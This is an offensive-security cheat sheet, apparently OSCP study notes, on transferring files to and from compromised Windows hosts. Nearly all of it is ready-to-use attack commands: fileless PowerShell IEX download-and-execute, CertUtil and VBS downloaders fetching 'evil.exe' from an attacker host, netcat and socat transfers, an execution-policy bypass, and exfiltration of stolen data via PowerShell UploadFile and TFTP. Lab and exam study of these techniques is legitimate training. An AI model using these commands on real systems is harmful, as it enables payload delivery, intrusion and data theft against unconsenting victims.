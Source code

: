 # Windows File Transfers

## FTP download
```bash
# copy a binary to /ftphome/; serve the binary on attackbox local ftp server then connect with target
sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
sudo systemctl restart pure-ftpd
```

## Netcat
```powershell
# Listener on Windows system
nc -lvnp $PORT > tranfered.exe
# Push wget.exe onto windows system
nc -nv $IP $PORT < /usr/share/windows-resources/binaries/wget.exe
```

## Socat
Host with
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```

## Powershell
```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://$IP:$PORT/$bad.exe','$bad.exe')"
```
Or
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$IP:$PORT/$bad.exe','$bad.exe')
```
Download and execute without saving to disk
```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://$IP:$PORT/$bad.exe')`
```

## Non interactive Powershell
```powershell
echo $storageDir = $pwd > wget.ps1   
echo $webclient = New-Object System.Net.WebClient >> wget.ps1   
echo $url = "http://$IP:$PORT/$bad.exe" >> wget.ps1   
echo $file = "$bad.exe" >>wget.ps1   
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```
Then
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## SMB with Impacket
```bash
python3 smbserver.py ROPNOP /path/to/exploit
copy \$IP\ROPNOP\exploit.exe`
```

## CertUtil
```powershell
certutil.exe -urlcache -split -f "http://$IP/$FILE"
```

**TFTP** (Installed by default up to Windows XP and 2003, In Windows 7, 2008 and above needs to be explicitly added. For this reason tftp not ideal file transfer protocol in most situations.) [ref](https://github.com/pythonmaster41/Go-For-OSCP)
```powershell
# On attacker machine:
mkdir /tftp
chwon nobody: /tftp
atftpd --deamon --port 69 tftp
cp $FILE tftp
# On Windows:
tftp -i $IP GET $FILE
tftp -i $IP PUT $FILE
```

## Windows-File-transferVBS-script
BEWARE: "If creating on Linux and then transferto windows then you may face issue sometime, use unix2dos before you transfer it in this case." 
Hakluke.
```vb
# wget.bs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
Run with:
```powershell
cscript wget.vbs http://attackerip/evil.exe evil.exe
```

## exe2hex plus Powershell
Have a `.exe` convert into a hex string:
```bash
# Transform binary making it non-interactive 
exe2hex -x nc64.exe -p nc.cmd
```
Good old copy and paste into a shell on Windows machine.

## UPX

Debug `.exe` (32bit machines only) filessize < 64kb!
```powershell
upx -9 nc.exe
wine exe2bat.exe nc.exe nc.txt
```

## PHP script - Upload HTTP Server for Data Exfiltration

Host a http server, make directory owned by www-data
```bash
mkdir /var/www/uploads -p
chown www-data: /var/www/uploads 
```
Script to placed in /uploads/
```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Exfiltrate your way to a great day!
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://$IP/upload.php', 'bad.exe')
```

## TFTP Upload Server for Data Exfiltration
```bash
apt install atftp
mkdir /tfp
shown nobody: /tftp
atftpd --daemon --port 69 /tftp
```

```powershell
tftp -i $ip put bigExfiltratedDataFile.nowmine
```


## References
[hakluke](https://hakluke.medium.com/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97)
[pythonmaster41](https://github.com/pythonmaster41/Go-For-OSCP)
[hackersinterview](https://hackersinterview.com/oscp/oscp-cheatsheet-windows-file-transfer-techniques/)

[sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/transfering_files_to_windows.html)